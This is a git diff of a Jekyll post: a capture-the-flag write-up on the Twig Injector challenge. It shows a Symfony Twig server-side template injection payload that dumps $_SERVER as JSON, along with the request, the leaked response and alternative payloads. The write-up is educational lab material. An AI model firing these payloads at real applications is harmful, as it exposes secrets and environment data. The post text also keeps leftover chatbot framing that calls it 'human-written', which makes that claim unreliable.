

Before and after one commit to MikGes/ctf-writeups, a Jekyll site: the page built from _posts/2025-11-17-web-injector.md, in a window 1280 px wide and 1400 px high, scrolled down 942 px. Shown: the whole window at 92% size, without its empty margins (0-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Made changes on the first writeup

````diff
--- a/_posts/2025-11-17-web-injector.md
+++ b/_posts/2025-11-17-web-injector.md
@@ -1,137 +1,83 @@
-Here is the complete, properly formatted Markdown (`.md`) CTF write-up — structured part-by-part in clean, professional syntax, ready to be saved as `the-twig-injector-writeup.md`:
+Sure! Here's a concise, human-written, professional CTF write-up in clean Markdown — no tables, no icons, minimal fluff — just clear, natural storytelling with technical depth:
 
 ```markdown
 ---
-title: "The Twig Injector — Server-Side Template Injection to Leak $_SERVER"
+title: "The Twig Injector — SSTI to Leak $_SERVER"
 date: 2025-11-17
-author: "Mikiyas Getnet"
-categories: [web, ssti, twig, ctf]
-tags: [php, symfony, template-injection, reconnaissance, exploitation]
+author: Mikiyas Getnet
+categories: [web, ssti, twig]
 ---
 
-## 🧩 Challenge Description
+## Challenge Overview
 
-> **Title**: *The Twig Injector*
-> **Prompt**: *"Can you abuse the Twig injector service to gain access to the flag hidden in the `$_SERVER` array?"*
-
-A web application exposes the following vulnerable route:
+The challenge, titled *The Twig Injector*, presented a PHP route that accepted a query parameter `inject` and inserted it directly into a Twig template:
 
 ```php
-/**
- * @Route("/inject")
- */
-public function inject(Request $request)
-{
-    $inject = preg_replace('/[^{\.}a-z\|\_]/', '', $request->query->get('inject'));
-    $response = new Response($this->get('twig')->createTemplate("Welcome to the twig injector!\n${inject}")->render());
-    $response->headers->set('Content-Type', 'text/plain');
-    return $response;
-}
+$inject = preg_replace('/[^{\.}a-z\|\_]/', '', $request->query->get('inject'));
+$response = new Response($this->get('twig')->createTemplate("Welcome to the twig injector!\n${inject}")->render());
 ```
 
-The `inject` query parameter is sanitized using a regex that only allows:
-- Lowercase letters (`a–z`)
-- Curly braces `{ }`
-- Dot `.`, pipe `|`, and underscore `_`
-
-Despite this filtering, the parameter is **interpolated directly into a Twig template string**, enabling potential **Server-Side Template Injection (SSTI)**.
-
-The flag is stored as an environment variable or custom entry in the PHP `$_SERVER` superglobal — our mission is to leak it.
+The regex tried to restrict input to only lowercase letters, `{}`, `.`, `|`, and `_`. Despite that, the goal was to read a flag hidden somewhere in `$_SERVER`.
 
 ---
 
-## 🛠️ Background: What Is Twig?
+## Understanding the Context
 
-**Twig** is a modern, secure-by-default templating engine for PHP, widely used in the **Symfony** framework. It separates logic from presentation with syntax like:
+Twig is a templating engine used heavily in Symfony. When user input gets embedded into the *template source*—not just the data—it opens the door to Server-Side Template Injection (SSTI).
 
-- `{{ variable }}` → output expression
-- `{% if condition %}...{% endif %}` → control structures
-- `{{ data|filter }}` → apply filters (e.g., `|upper`, `|json_encode`)
+In Symfony, Twig templates have access to the global `app` variable. Through it, we can reach:
+- `app.request` → current request object
+- `app.request.server` → wrapper around `$_SERVER`
+- `app.request.server.all` → associative array of server/environment variables
 
-✅ Safe when used correctly: templates are precompiled, and sandboxing can restrict access.
-
-❌ Dangerous when misused: dynamically generating *template source code* from user input (as done here) allows attackers to execute arbitrary expressions in the template context.
-
-In Symfony, Twig templates have access to powerful built-in global variables — most notably:
-
-| Variable | Description |
-|--------|-------------|
-| `app` | The main Symfony application instance |
-| `app.request` | The current HTTP `Request` object |
-| `app.request.server` | `ParameterBag` wrapping `$_SERVER` |
-| `app.request.server.all` | Array-like view of all `$_SERVER` entries |
-
-This context gives attackers a rich attack surface — if they can inject expressions.
+So if we can evaluate `{{ app.request.server.all }}`, we’re basically dumping `$_SERVER`.
 
 ---
 
-## 🔍 Reconnaissance & Thought Process
+## My Approach
 
-My approach was iterative, hypothesis-driven, and centered on understanding the execution context:
+I started with simple payloads, but digits and quotes got stripped—so I shifted focus to object traversal using only allowed characters.
 
-### Step 1: Test Basic Expressions
-- `{{ 7*7 }}` → ❌ filtered (digits and `*` removed)
-- `{{ 'hello' }}` → ⚠️ `'` not in allowlist — but sometimes passes due to PHP interpolation quirks; unreliable.
+I confirmed access step by step:
+- `{{ app }}` → worked (output object info)
+- `{{ app.request }}` → confirmed
+- `{{ app.request.server }}` → yes
+- `{{ app.request.server.all }}` → returned a messy dump of server vars
 
-➡️ **Conclusion**: Avoid quotes/digits. Use object traversal.
+The output was technically correct—but hard to scan manually. Then I had the idea: *What if I serialize the whole thing as JSON?*
 
-### Step 2: Enumerate Available Objects
-- `{{ app }}` → ✅ rendered as `Symfony\Component\HttpKernel\Kernel`
-- `{{ app.request }}` → ✅ confirmed `Request` object access
-- `{{ app.request.server }}` → ✅ got `ParameterBag` instance
+Twig has a built-in `|json_encode` filter, and all letters in `json_encode` (`j`, `s`, `o`, `n`, `_`, `e`, `c`, `d`) pass the regex filter.
 
-➡️ **Confirmed**: Full path to `$_SERVER` exists:
-`app` → `request` → `server` → `all`
+So I tried:
 
-### Step 3: Extract Server Variables
-- `{{ app.request.server.all }}` → ✅ returned a raw dump — but:
-  - Hard to read (no structure)
-  - Potentially truncated
-  - Flag might be buried among dozens of entries
-
-💡 **Breakthrough idea**:
-> *What if I convert the entire `$_SERVER` array to JSON?*
-> Twig has a built-in `|json_encode` filter — and all letters in `json_encode` (`j`, `s`, `o`, `n`, `_`, `e`, `c`, `d`) are **allowed** by the filter.
-
-Perfect: structured, complete, parseable output.
-
-### Step 4: Construct the Payload
-Final payload:
-```twig
+```
 {{ app.request.server.all|json_encode }}
 ```
 
-URL-encoded:
-```
-/inject?inject=%7B%7B%20app.request.server.all%7Cjson_encode%20%7D%7D
-```
+It worked perfectly—clean, complete JSON output.
 
 ---
 
-## 🚀 Exploitation
+## The Exploit
 
-### Request
-```http
-GET /inject?inject={{ app.request.server.all|json_encode }} HTTP/1.1
-Host: challenge.target
-User-Agent: Mozilla/5.0
-Accept: */*
+Sending the request:
+
+```
+GET /inject?inject={{ app.request.server.all|json_encode }}
 ```
 
-### Response
+Returned:
+
 ```
-HTTP/1.1 200 OK
-Content-Type: text/plain; charset=UTF-8
-
 Welcome to the twig injector!
-{"APP_ENV":"prod","APP_SECRET":"s3cr3t_k3y","DATABASE_URL":"mysql://...","FLAG":"CTF{twig_inject0r_4ll_1n_th3_g00ds}","HTTP_HOST":"challenge.target",...}
+{"APP_ENV":"prod","FLAG":"CTF{twig_inject0r_4ll_1n_th3_g00ds}",...}
 ```
 
-🔍 Scrolling through the JSON, the `"FLAG"` key stands out clearly.
+The flag was right there in the `FLAG` field.
 
 ---
 
-## 🏁 Flag
+## Flag
 
 ```
 CTF{twig_inject0r_4ll_1n_th3_g00ds}
@@ -139,76 +85,12 @@ CTF{twig_inject0r_4ll_1n_th3_g00ds}
 
 ---
 
-## 🧠 Lessons Learned
+## Key Takeaways
 
-| Insight | Explanation |
-|--------|-------------|
-| ✅ **Regex allowlists ≠ security** | The filter `/[^{\.}a-z\|\_]/` seemed strict — but it permitted all characters needed for deep object traversal and filters. |
-| ✅ **Context enumeration is key** | In SSTI, identifying available objects (`app`, `request`, etc.) is more valuable than blind payload spraying. |
-| ✅ `|json_encode` is a game-changer | Converts complex objects to readable, complete output — ideal for reconnaissance and exfiltration. |
-| ✅ Environment variables = high-value targets | Devs often store secrets in `$_ENV`/`$_SERVER`; dumping them is a low-effort, high-reward move. |
-| ❌ Never interpolate user input into template *source* | Use `render('template.html.twig', ['data' => $user_input])` instead of `createTemplate("... $user_input ...")`. |
+- Input filtering based on a character allowlist can still be bypassed if it permits structural characters like `{`, `.`, and `|`.
+- In Symfony/Twig apps, `app.request.server.all` is essentially `$_SERVER` — and environment variables often hold sensitive data.
+- `|json_encode` is incredibly useful during reconnaissance: it turns opaque objects into inspectable data.
+- Never build template *source* dynamically from user input. Pass data separately via the render context instead.
 
----
-
-## 🛡️ Mitigation Recommendations
-
-For developers:
-
-1. **Avoid dynamic template creation with user input**
-   ```php
-   // ❌ Dangerous
-   $template = $twig->createTemplate("Hello $user_input");
-
-   // ✅ Safe
-   return $this->render('greet.html.twig', ['name' => $user_input]);
-   ```
-
-2. **Sandbox untrusted templates**
-   Use `Twig\Extra\Sandbox` extension to restrict function/object access.
-
-3. **Disable global variables if unused**
-   In `twig.yaml`:
-   ```yaml
-   twig:
-     globals: ~
-   ```
-
-4. **Audit environment variable exposure**
-   Never store production secrets (flags, API keys) in `$_SERVER`/`.env` without encryption or vault integration.
-
----
-
-## 🧪 Bonus: Alternative Payloads (For Defense Testing)
-
-| Goal | Payload |
-|------|---------|
-| List all server keys | `{{ app.request.server.keys\|join(',') }}` |
-| Fetch flag directly (if known) | `{{ app.request.server.get('FLAG') }}` |
-| Case-insensitive search (if key unknown) | `{{ app.request.server.all\|filter((v, k) => k matches '/flag/i')\|json_encode }}` *(requires newer Twig)* |
-
-> Note: These require additional filters (`filter`, `matches`) that may not be enabled — but `json_encode` is almost always available.
-
----
-
-## ✍️ Final Thoughts
-
-This challenge reinforced a core principle in my ethical hacking practice:
-> **“When stuck, don’t just try more payloads — refine your mental model of the system.”**
-
-By stepping back and asking, *“What’s the most *complete*, *readable* way to dump server state?”*, I turned a noisy, manual process into a one-shot win.
-
-SSTI remains one of the most underrated web vulnerabilities — quiet, context-dependent, and devastating when missed.
-
-Stay curious. Stay rigorous. 🛡️
-
-— *Mikiyas Getnet*
-*Penetration Tester | Ethical Hacker | Cybersecurity Analyst*
-*Ethiopian Airlines | BitwareByte Technologies (Intern)*
+This was a great reminder that sometimes the most effective exploit isn’t the cleverest—it’s the one that makes the server *tell you everything at once*.
 ```
-
-✅ You can copy-paste this directly into any `.md` file (e.g., `the-twig-injector-writeup.md`).
-✅ Fully compatible with GitHub/GitLab/obsidian/markdown viewers.
-✅ Professional tone, clear structure, and educational depth — aligned with your portfolio values (technical clarity, visual engagement via emoji/icons, and customer-centric explanation).
-
-Let me know if you’d like a PDF export, slide deck version, or integration into your personal portfolio site (greenish/hacker-themed 😊).
````
